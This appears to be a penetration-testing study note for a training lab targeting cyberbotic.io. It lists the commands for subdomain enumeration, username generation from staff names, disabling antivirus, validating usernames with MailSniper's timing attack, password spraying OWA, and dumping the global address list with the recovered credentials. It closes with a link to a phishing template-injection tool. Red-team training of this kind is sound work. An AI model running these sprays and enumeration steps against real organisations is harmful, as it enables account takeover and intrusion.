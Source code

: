 
We discovered the internal OWA Exchnage Server. We are in a assume breach scenario
```
~/dnscan$ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt
[*] Processing domain cyberbotic.io
---SNIP---
172.67.205.143 - www.cyberbotic.io
104.21.90.222 - www.cyberbotic.io
10.10.15.100 - mail.cyberbotic.io
```

## Password Spraying
Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.

> [!tip] 
>   Be cautious of localisations, e.g. Autumn vs Fall. 

Usernames could be extractet from various sources as seen in the external reconisance, mostly Linkedin or Websites. In this excercise the target has a "Our team" section: 

![[Pasted image 20230324090920.png]]

We can come up with this list:


```
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

Use [namehash.py](https://gist.github.com/superkojiman/11076951) to create  alist of possible usernames based on the names of the people.

```
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

> [!hint] 
> We could potentially skip this step if we knew the email address format from somewhere like hunter.io 

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). import MailSniper.ps1. (Disable AV first)

```
PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1
```


Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`.

```
PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

Get the netbios name with:

```
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```


`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.
 
```
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

```
PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```


 > [!OPSEC]
 > In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users.  Too many attempts in a short space of time are not only loud but may also lock accounts out.
>  
 
 
We can do further actions using MailSniper with valid credentials, such as downloading the global address list.

```
PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

## Phishing

Template rekmote injector: https://github.com/JohnWoodman/remoteinjector